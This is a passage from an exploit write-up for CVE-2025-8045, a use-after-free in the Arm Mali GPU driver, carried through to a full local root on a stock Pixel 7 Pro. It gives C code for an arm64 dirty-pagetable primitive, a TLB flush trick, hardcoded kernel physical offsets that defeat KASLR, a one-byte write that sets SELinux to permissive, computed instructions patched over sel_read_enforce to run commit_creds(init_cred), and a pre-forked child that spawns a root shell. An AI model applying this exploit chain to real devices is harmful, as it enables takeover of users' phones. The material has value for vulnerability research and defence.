The pages those entries pointed at are orphaned, but the process never exits, so it does not matter.
This is the first point where a mistake can reboot the phone. The PoC prints each step to unbuffered stdout as it happens, so whatever adb has already received is the last step the exploit reached before a panic.
The arm64 dirty-pagetable primitive
One physical page is now simultaneously a CPU page table the kernel is walking, and a live Mali allocation we have mapped read/write. Writing a descriptor through the GPU alias installs an arbitrary physical page into our own address space.
The descriptor
The x86 write-ups all hardcode 0x...067. The arm64 equivalent has to be built from this kernel’s headers:
1
2
#define ARM64_PTE_FLAGS 0x00e8000000000f43ULL
#define ARM64_PTE_PA_MASK 0x0000fffffffff000ULL

AttrIndx is the trap. It was 4 before the MTE rework and is 0 on this kernel (arch/arm64/include/asm/memory.h:148). A value copied from an older write-up gives 0x...f53, which maps the page as the wrong memory type with no loud failure.
A level-2 block descriptor differs only in the type bits (0b01) with a 2 MB-aligned frame. The PoC does not build one: map_fresh() always writes ARM64_PTE_FLAGS, so the primitive is only correct on a last-level capture, which is what pt_reserve() is there to guarantee.
Be aware of what the PoC does not do here. identify_window() reports the level it found, so a level-2 capture is visible in the log rather than silent, but there is no guard on it: the code carries on and drives the window as though it were last-level, with entry k addressing g_window + k*0x1000 when the hardware reads that table at 2 MB per entry. A round that prints level-2 table should be read as a failed round, not a win. Making that a hard skip is a two-line change, and if you are adapting this to another target it is the first thing to add.
Making the kernel flush the TLB for us
TLB maintenance is EL1-only, so we make the kernel do it. __flush_tlb_range() falls back to a full ASID flush once the range covers MAX_TLBI_OPS (512) pages, and this CPU has no FEAT_TLBIRANGE. So an mprotect() over 4 MB of already-faulted anonymous memory flushes the whole mm, in about 200 microseconds:
1
2
3
4
5
6
7
8
9
#define TLB_SCRATCH_SIZE 0x400000UL /* 4 MB = 1024 pages > 512 */
static void tlb_flush(void)
{
__asm__ volatile("dsb ish" ::: "memory");
mprotect(g_tlb_scratch, TLB_SCRATCH_SIZE, PROT_NONE);
mprotect(g_tlb_scratch, TLB_SCRATCH_SIZE, PROT_READ | PROT_WRITE);
__asm__ volatile("isb" ::: "memory");
}
The scratch region is faulted in at init, because change_protection() needs existing PTEs to invalidate.
Why PROT_NONE and not PROT_READ. change_protection() only flushes when it actually modified PTEs. RW→RO modifies them, but RO→RW does not reliably set the write bit back; Linux often leaves the PTE read-only and defers to a write fault. When it does, the next RW→RO pass changes nothing and no flush happens, so the flush works exactly once and then silently stops, which reads downstream as a window that maps one address and never moves again. PROT_NONE cannot be elided in either direction, so both calls always rewrite every PTE and always flush.
Never reuse a window entry
1
2
3
4
5
6
7
8
9
10
11
12
13
static int g_next_entry = 1;
static volatile uint8_t *map_fresh(uint64_t page_pa)
{
int k = g_next_entry;
if (k >= WIN_SLOTS) /* WIN_SLOTS = 512 */
return NULL;
g_next_entry++;
g_pt_base[k] = ARM64_PTE_FLAGS | (page_pa & ARM64_PTE_PA_MASK);
tlb_flush();
return g_window + (size_t)k * 0x1000;
}
Entry k drives VA g_window + k*0x1000, and the table covers all 2 MB of its region, so every entry above the live one at index 0 is usable — 511 windows, far more than we need.
The strictly-increasing allocator is a correctness requirement, not an optimisation. A never-touched virtual address cannot have a stale TLB entry, so its first access is guaranteed to be a hardware walk that reads the descriptor we just wrote, so the mapping works even if the flush silently failed. Reusing an entry breaks that: once set_permissive() has read through entry 1, entry 1 carries a TLB entry, and a later patch through it can hit the stale mapping.
There is a second reason. When a fresh mapping is not visible on first access, the read faults, the kernel backs that VA with a zero page, and the entry is poisoned permanently. Recovery means advancing, not re-reading:
1
2
3
4
5
6
7
8
9
10
11
12
static volatile uint8_t *map_verified(uint64_t page, uint32_t check_off, uint8_t want)
{
for (int attempt = 0; attempt < 8; attempt++) {
volatile uint8_t *w = map_fresh(page); /* a NEW entry each time */
if (!w) break;
if (*(w + check_off) == want ||
(want == 0xff && *(w + check_off) != 0))
return w;
}
return NULL;
}
map_verified() also encodes “the mapping really took”: kernel text is never zero and selinux_state.initialized is 1 on a booted system, so a fresh zero page cannot be mistaken for success.
Getting root
Defeating KASLR without leaking anything
KASLR randomises the kernel’s virtual base every boot, but the bootloader always loads the image at the same physical address. /proc/iomem reports Kernel code 80010000-81bbffff, and _stext is _text + 0x10000, so:
1
#define KERNEL_PA_BASE 0x80000000ULL
Every symbol becomes a constant physical address, KERNEL_PA_BASE + offset_from__text. No leak needed. For this build:
1
2
3
4
#define SEL_READ_ENFORCE 0x609fc0
#define INIT_CRED 0x2001a68
#define COMMIT_CREDS 0xe5270
#define SELINUX_STATE 0x22293d0
(Obtained on a rooted dev device via /proc/kallsyms. Build-specific; on a real target they come from the matching factory image.)
SELinux permissive — a single data byte
1
2
#define SELINUX_ENFORCING_OFF 0
#define SELINUX_INITIALIZED_OFF 2
With CONFIG_RANDSTRUCT_NONE=y, CONFIG_SECURITY_SELINUX_DISABLE unset, and CONFIG_SECURITY_SELINUX_DEVELOP=y, enforcing is the first member of struct selinux_state.
1
2
3
volatile uint8_t *w = map_verified(page, off + SELINUX_INITIALIZED_OFF, 1);
...
w[off + SELINUX_ENFORCING_OFF] = 0;
enforcing_enabled() is just READ_ONCE(state->enforcing), so zeroing that byte makes every future check permissive with no torn-instruction risk. This replaced an earlier approach that patched avc_denied’s instructions and panicked in the AVC path; that function is hot, live on other cores, and its callers rely on its side effects. A data write avoids the whole class of problem. The initialized == 1 check doubles as validation that the window mapped the right page.
Patching sel_read_enforce
Eight instructions spliced over sel_read_enforce, so reading /sys/fs/selinux/enforce runs commit_creds(init_cred) on the reader:
1
2
3
4
5
6
7
8
9
10
11
static void build_root_shell(uint32_t *code)
{
code[0] = write_adrp(0, SEL_READ_ENFORCE + 0, INIT_CRED);
code[1] = ADD_IMM(0, 0, INIT_CRED);
code[2] = write_adrp(8, SEL_READ_ENFORCE + 8, COMMIT_CREDS);
code[3] = ADD_IMM(8, 8, COMMIT_CREDS);
code[4] = 0xa9bf7bfd; /* stp x29, x30, [sp, #-0x10]! */
code[5] = 0xd63f0100; /* blr x8 */
code[6] = 0xa8c17bfd; /* ldp x29, x30, [sp], #0x10 */
code[7] = 0xd65f03c0; /* ret */
}
Encodings are computed, not hand-assembled, so changing a symbol offset cannot leave a stale instruction behind:
1
2
3
4
5
6
7
8
9
static uint32_t write_adrp(int rd, uint64_t pc, uint64_t label)
{
int64_t offset = ((int64_t)(label >> 12) - (int64_t)(pc >> 12)) << 12;
uint32_t adrp = (uint32_t)(rd & 0x1f) | (1u << 28) | (1u << 31);
adrp |= (uint32_t)((offset >> 12) & 3) << 29; /* immlo */
adrp |= (uint32_t)(0xffffe0 & ((offset >> 14) << 5)); /* immhi */
return adrp;
}
adrp is PC-relative, so its encoding depends only on the distance between two symbols, which the build fixes. We never need a KASLR’d virtual address.
Cache maintenance
Our stores go through the D-cache; the CPU fetches sel_read_enforce through the I-cache. Without joining them the patched function executes a mix of old and new words, which locks up the kernel the moment anything reads the file.
1
2
3
4
5
6
7
8
9
10
11
12
static void sync_icache(volatile void *addr, size_t len)
{
uintptr_t s = (uintptr_t)addr & ~63UL;
uintptr_t e = ((uintptr_t)addr + len + 63) & ~63UL;
for (uintptr_t a = s; a < e; a += 64)
__asm__ volatile("dc cvau, %0" :: "r"(a) : "memory");
__asm__ volatile("dsb ish" ::: "memory");
for (uintptr_t a = s; a < e; a += 64)
__asm__ volatile("ic ivau, %0" :: "r"(a) : "memory");
__asm__ volatile("dsb ish\n\tisb" ::: "memory");
}
Both instructions take a virtual address but act on the underlying physical line, so issuing them on our alias reaches the kernel’s own mapping. EL0 may execute them because Linux sets SCTLR_EL1.UCI.
Words are written back to front, then read back and compared. If the patch did not stick (write-protected kernel text), we do not trigger it; a half-patched function is worse than no patch at all.
Ordering: permissive first, credentials second
1
2
if (set_permissive() < 0) return;
if (patch_kernel_text("sel_read_enforce", SEL_READ_ENFORCE, root_code, 8) < 0) return;
The child needs permissive in force when it reads enforce and execs. Otherwise it reaches uid 0 but its SELinux context still blocks open/write/exec, and it dies as a root zombie.
The pre-forked child
The exploiting process can never execve(). Its address space contains the captured page table, which is also a live Mali allocation; tearing that mm down frees one page twice and panics.
So a child is forked at the very top of main(), before anything is mapped. It has no GPU mappings, no spray, no captured table, and blocks on a pipe. When released it reads the patched file, which runs commit_creds(init_cred) on itself, then reports back and execs:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
fd = open("/sys/fs/selinux/enforce", O_RDONLY);
if (fd >= 0) { read(fd, &c, 1); close(fd); } /* runs the patched sel_read_enforce */
c = (getuid() == 0);
write(g_done[1], &c, 1); /* report the result to the parent */
close(g_done[1]);
if (!c) _exit(1);
printf("[+] root shell: uid=%d euid=%d\n", getuid(), geteuid());
fflush(stdout);
setsid(); /* own session + tty, so the shell is not */
ioctl(0, TIOCSCTTY, 1); /* fighting the parked parent for the fg pgrp */
execl("/system/bin/sh", "sh", (char *)NULL);
The parent releases the child, then zeroes its window entries (g_pt_base[k] = 0 for every entry used, plus a tlb_flush()) so teardown cannot put_page() kernel pages. The kernel patches are deliberately left in place: restoring mid-flight only adds windows to get wrong, and a drifted restore silently leaves a live root backdoor, which is worse.
Conclusion
To summarise, we exploited a physical-page use-after-free in the Arm Mali GPU kernel driver (CVE-2025-8045) and weaponised it into a full local privilege escalation on a stock, unrooted Pixel 7 Pro. The freed object is a 64 KB (order-4) buddy page in MIGRATE_UNMOVABLE, the same migratetype the GPU’s own memory pool allocates from, which is exactly what lets a stamped GPU spray reclaim it. A second free then hands that page to a page-table spray, and the kernel gives it back as a live CPU last-level page table: the dirty-pagetable primitive. From there a single descriptor written through the GPU alias is an arbitrary physical read/write, so one zeroed byte in selinux_state drops SELinux to permissive and eight instructions spliced over sel_read_enforce make commit_creds(init_cred) run on whoever reads /sys/fs/selinux/enforce — a pre-forked child that becomes an interactive root shell.

The full proof-of-concept is available on GitHub.
References
- CVE-2025-8045 — NVD entry. Use-after-free in the Arm Valhall / 5th Gen GPU architecture kernel driver, r53p0 through r54p1, fixed in r54p2 and r55p0. https://nvd.nist.gov/vuln/detail/CVE-2025-8045
- Arm vendor advisory for CVE-2025-8045 — Mali GPU Driver Security Bulletin, Arm Product Security Center. https://developer.arm.com/documentation/110697/latest/
- Valhall Mali GPU kernel driver sources — the
VX504X08X-SW-99002-r*archives.driver/product/kernel/drivers/gpu/arm/midgard/csf/mali_kbase_csf_cpu_queue.cin the r53p0–r54p1 drops holds both halves of the bug; diffing it against r54p2 shows the fix. https://developer.arm.com/downloads/-/mali-drivers/valhall-kernel - Nicolas Wu, “Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel” (2023) — the technique the last two sections implement: turn a page-granularity UAF into a user page table you can write, and read/write arbitrary physical memory through it. https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html
- Thomas Gleixner, “Reinventing the timer wheel” (LWN, 2015) — the design behind
calc_index()rounding an expiry up to its level’s bucket, which is why the 3-second completion does not expire at 3 seconds. https://lwn.net/Articles/646950/